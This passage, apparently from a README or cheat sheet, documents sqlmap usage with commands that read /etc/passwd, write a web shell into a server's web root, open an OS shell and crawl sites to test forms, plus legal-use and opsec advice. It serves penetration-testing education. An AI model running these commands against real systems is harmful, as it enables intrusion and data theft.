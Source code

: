### File System Access (If DBA)
```bash
# Read files from server
sqlmap -u "http://example.com/vuln.php?id=1" --file-read="/etc/passwd"

# Write files to server
sqlmap -u "http://example.com/vuln.php?id=1" --file-write="shell.php" --file-dest="/var/www/shell.php"

# OS command execution
sqlmap -u "http://example.com/vuln.php?id=1" --os-shell
```

### Crawling and Form Detection
```bash
# Crawl website and test all forms
sqlmap -u "http://example.com" --crawl=3 --forms --batch

# Test specific forms
sqlmap -u "http://example.com/search.php" --forms --batch
```

## Security Considerations

⚠️ **Legal and Ethical Usage**

- ✅ **Authorized testing only** - Own systems or explicit permission
- ✅ **Educational purposes** - Learning and research
- ✅ **Bug bounty programs** - Where explicitly allowed
- ❌ **Unauthorized access** - Illegal and unethical
- ❌ **Malicious intent** - Criminal offense

### Responsible Disclosure
1. Identify vulnerabilities responsibly
2. Document findings thoroughly
3. Report to appropriate parties
4. Allow time for remediation
5. Delete any extracted data after reporting

### Operational Security
- Use VPNs and proxies when authorized
- Limit data extraction to minimum necessary
- Clean up after testing
- Use encrypted connections
- Monitor for detection triggers

## Best Practices

1. **Start Conservative**
   ```bash
   # Begin with low impact
   sqlmap -u "http://example.com/vuln.php?id=1" --level=1 --risk=1 --batch
   ```
